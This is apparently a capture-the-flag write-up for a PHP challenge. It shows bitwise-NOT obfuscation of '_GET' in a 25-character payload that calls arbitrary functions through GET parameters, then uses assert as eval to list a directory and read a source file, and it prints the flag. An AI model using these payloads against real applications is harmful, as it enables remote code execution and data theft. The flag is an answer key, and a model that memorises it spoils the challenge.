



This challenge is quite complicated. We need to execute our own code, however there are a lot of restrictions.

First, we can see this cute `not` trick:
When we supply `~"\xff"`, it will be interpreted in php to `\x00`. So, by this way we can bypass the restrication of giving `_GET`, just simply input the string after flipping the bits.

We use this hex_dump php function, which is took from here [stackoverflow - php hexdump function](https://stackoverflow.com/a/4225813)
```php
function hex_dump($data, $newline="\n")
{
  static $from = '';
  static $to = '';
  
  static $width = 16; # number of bytes per line
  
  static $pad = '.'; # padding for non-visible characters
  
  if ($from==='')
  {
    for ($i=0; $i<=0xFF; $i++)
    {
      $from .= chr($i);
      $to .= ($i >= 0x20 && $i <= 0x7E) ? chr($i) : $pad;
    }
  }
  
  $hex = str_split(bin2hex($data), $width*2);
  $chars = str_split(strtr($data, $from, $to), $width);
  
  $offset = 0;
  foreach ($hex as $i => $line)
  {
    echo sprintf('%6X',$offset).' : '.implode(' ', str_split($line,2)) . ' [' . $chars[$i] . ']' . $newline;
    $offset += $width;
  }
}
```



Let's try this, we give this input:
`echo ${~'%A0%B8%BA%AB'}{0}('DD');` which is after deobsufcate: `echo ${_GET}{0}('DD');` which is `echo $_GET[0]('DD')`, and we give in the params: `?0=strlen`.

As we can see, the output is `2`, WORKING!!



Okay, now we'll add another `_GET[1]`, to insert our param to the function, and by this way bypassing the 25-chars length striction.
This will be our payload: `${~%A0%B8%BA%AB}{0}(${~%A0%B8%BA%AB}{1});`, and of course, the params: `?0=function_name&1=function_param`

We've got luck, because this payload is exactly 25 chars :)

I wrote this script to help us, you only need to supply `function_name` and `function_param`.
```py

```

I'm gonna use `assert`, because it contains `eval` within its execution, here you can see more about it, [how assert can help you hacking](https://infosecwriteups.com/how-assertions-can-get-you-hacked-da22c84fb8f6).
The first `function_param` will be `print_r(scandir("."));`, to print the content of the folder.

Then, the `function_param` will be `print(file_get_contents('0e7efcd6e821f4bb90af4e4c439001944c1769da.php'));`




**Flag:** ***`WEBSEC{that_must_have_been_some_nifty_php_trick_you_had_there}`*** 
